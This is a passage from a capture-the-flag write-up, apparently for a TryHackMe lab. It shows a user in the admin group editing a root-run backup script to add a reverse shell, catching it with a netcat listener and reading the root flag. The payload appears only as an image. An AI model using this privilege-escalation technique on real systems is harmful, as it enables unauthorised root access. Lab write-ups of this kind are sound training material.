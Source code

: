 I check the permissions of the file and I see that it is only accessible for writing to root and members of the `admin` group. 
The user `gyles` is in the admin group as shown by the `id` command, which means that I have the right to modify the contents of the file : 
```
gyles@TEAM:/home/gyles$ ls -la /usr/local/bin/main_backup.sh 
-rwxrwxr-x 1 root admin 65 Jan 17  2021 /usr/local/bin/main_backup.sh
gyles@TEAM:/home/gyles$ id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```
Looking at the content of the file I see that it is a bash script that copies backups :
```
gyles@TEAM:/home/gyles$ cat /usr/local/bin/main_backup.sh 
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
``` 

I then decide to modify the file with `nano` to add a `reverse shell` to my machine :
<img src=https://i.imgur.com/MdAeEqe.png>

Then i did set up a netcat listener.And after a few seconds I have access to a root shell :
```
└─$ nc -lvnp 9494  
listening on [any] 9494 ...
connect to [10.8.75.8] from (UNKNOWN) [10.10.183.30] 58180
sh: 0: can't access tty; job control turned off
# whoami
root
```

So I can get the root flag :
```
# ls
root.txt
# cat root.txt  
THM{************}
```

